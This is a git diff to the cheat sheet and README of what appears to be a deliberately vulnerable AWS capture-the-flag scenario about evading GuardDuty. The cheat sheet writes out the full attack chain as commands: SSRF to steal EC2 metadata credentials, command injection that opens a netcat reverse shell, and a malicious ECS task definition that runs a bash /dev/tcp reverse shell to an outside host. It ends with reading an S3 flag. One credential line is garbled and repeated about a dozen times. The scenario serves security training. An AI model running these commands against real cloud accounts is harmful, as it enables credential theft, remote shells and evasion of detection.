

change README.md change cheat_sheet.md change diagram.png

Changed region(s): [[0.0297, 0.0308, 0.9809, 0.987], [0.7728, 0.6786, 0.8025, 0.7094], [0.0297, 0.4935, 0.0594, 0.5244]]

diff --git a/scenarios/guardduty_evasion_with_ecs/cheat_sheet.md b/scenarios/guardduty_evasion_with_ecs/cheat_sheet.md
@@ -1,49 +1,67 @@
 
 Go to `http://<ec2_ip_address>`
 
-`http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>`
+### SSRF
 
-`aws configure --profile attacker`
+```
+http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>
+aws configure --profile attacker
+echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials
+```
 
-`echo "aws_session_token = <token>" >> ~/.aws/credentials`
+### Command Injection
 
-`aws --profile attacker sts get-caller-identity`
+- prepare another host for revshell attack with `nc -lvp 4000`
+- command injection on web with `; nc <ip_address> 4000 -e /bin/sh &`
 
-`aws --profile attacker iam get-role --role-name <role>`
+### For more information
 
-`aws --profile attacker iam list-attached-role-policies --role-name <role>`
+- more information about iam
 
-`aws --profile attacker iam list-role-policies --role-name <role>`
+```
+aws sts get-caller-identity
+aws iam get-role --role-name <role>
+aws iam list-attached-role-policies --role-name <role>
+aws iam list-role-policies --role-name <role>
+aws iam get-role-policy --role-name <role> --policy-name <policy>
+aws iam list-roles
+```
 
-`aws --profile attacker iam get-role-policy --role-name <role> --policy-name <policy>`
+- more information about ecs
 
-`aws --profile attacker ecs list-clusters`
+```
+`aws ecs list-clusters`
+`aws ecs describe-clusters --clusters <cluster>`
+`aws ecs list-container-instances --cluster arn:aws:ecs:us-east-1:<aws_id>:cluster/<cluster>`
+```
 
-`aws --profile attacker ecs describe-clusters --clusters <cluster>`
+### ECS Privesc
 
-`aws --profile attacker ecs list-container-instances --cluster arn:aws:ecs:us-east-1:<aws_id>:cluster/<cluster>`
+* Attacker prepare revshell at other public ip point with `nc -lvp 4000`.
 
-Attacker prepare revshell at other public ip point with `nc -lvp 4000`.
+* And now come back to CLI.
 
-And now come back to CLI.
+```
+# ECS Task definition with revshell command.
+aws ecs register-task-definition --family iam_exfiltration --task-role-arn arn:aws:iam::<userr_id>:role/<role> --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/<revshell_ip>/4000 0>&1\\\"\"]}]"
 
-`aws --profile attacker ecs register-task-definition --family iam_exfiltration --task-role-arn arn:aws:iam::<userr_id>:role/<role> --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/<revshell_ip>/4000 0>&1\\\"\"]}]"`
+# For run-task, find available subnets.
+aws ec2 describe-subnets
 
-`aws --profile attacker ec2 describe-subnets   `
-
-`aws --profile attacker ecs run-task --task-definition iam_exfiltration --cluster arn:aws:ecs:us-east-1:<user_id>:cluster/<cluster> --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"<subnet>\"]}}"`
-
+# Run task.
+aws ecs run-task --task-definition iam_exfiltration --cluster arn:aws:ecs:us-east-1:<user_id>:cluster/<cluster> --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"<subnet>\"]}}"
+```
 After a few minutes, the revshell will be connected by container.
 Let's do it on revshell.
 
-`apt-get update`
+### Access S3
 
-`apt-get install awscli`
+```
+apt-get update
+apt-get install awscli
 
-`aws s3 ls`
-
-`aws s3 ls s3://<bucket-name>/`
-
-`aws s3 cp s3://<bucket-name>/flag.txt .`
-
-`cat flag.txt`
+aws s3 ls
+aws s3 ls s3://<bucket-name>/
+aws s3 cp s3://<bucket-name>/flag.txt .
+cat flag.txt
+```

diff --git a/scenarios/guardduty_evasion_with_ecs/README.md b/scenarios/guardduty_evasion_with_ecs/README.md
@@ -16,10 +16,11 @@
     - 1 * ASG with :
         - 1 * EC2
     - 1 * Service (web container)
-- 1 * S3
+- 2 * S3 (1 * scret, 1 * cloudtrail)
 - Detection Mechanisms
   - GuardDuty enabled
   - CloudWatch
+  - CloudTrail
   - EventBridge
   - Lambda
   - SES
@@ -36,19 +37,19 @@ Scenario starts as a web user.
 
 ---
 
-Read flag.txt in S3 without being detected by GuardDuty.
+Read flag.txt in S3 with avoiding various defense techniques.
 
 ## Summary
 
 ---
 
-An SSRF (Server Side Request Forgery) attack targeting a web server running on an EC2 instance can enable you to retrieve credentials from the EC2 metadata service. You can then use these credentials to access an S3 bucket. However, be cautious of AWS Guard Duty, as it might detect and respond to unusual activities associated with S3 access.
+There is a very vulnerable website operating on AWS. The site's security administrator became frightened and took some web security measures and enabled GuardDuty for EC2's credentials. Take a detour and approach S3 and win the secret string.
 
 ## Email setup
 
 ---
  
-- AWS GuardDuty will track the use of the credentials you obtained with SSRF and will send you an email if the tracking is successful.So you need to register an email and respond to AWS authentication mail sent to that email before using the scenario.
+- If AWS Guard Duty detects your attack in the scenario, we will send you an email. So you need to register an email and respond to AWS authentication mail sent to that email before start.
 - If you prefer not to use a standard email address, you might consider services such as https://temp-mail.org/ or https://www.fakemail.net/.
 
 # SPOILER ALERT: There are spoilers for the scenario blew this point.
@@ -66,7 +67,7 @@ An SSRF (Server Side Request Forgery) attack targeting a web server running on a
 ---
 
 - Attacker accesses the web service of a container inside EC2 managed by ECS.
-- The attacker exploits an SSRF vulnerability in a web service to access the EC2 metadata service and steal temporary credentials.
-- The attacker defines and executes an ECS task with the authority of the web developer to bypass GuardDuty. Perform a reverse shell attack to access the container been created.
+- The attacker exploits vulnerabilities in a web service to access the EC2's credentials.
+- The attacker defines and executes an ECS task with the authority of the web developer to privesc or bypass mitigations. Perform a reverse shell attack to access the container been created.
 - The attacker accesses S3 at the container to bypass GuardDuty detection. Gets the Secret String and exits the scenario.
 
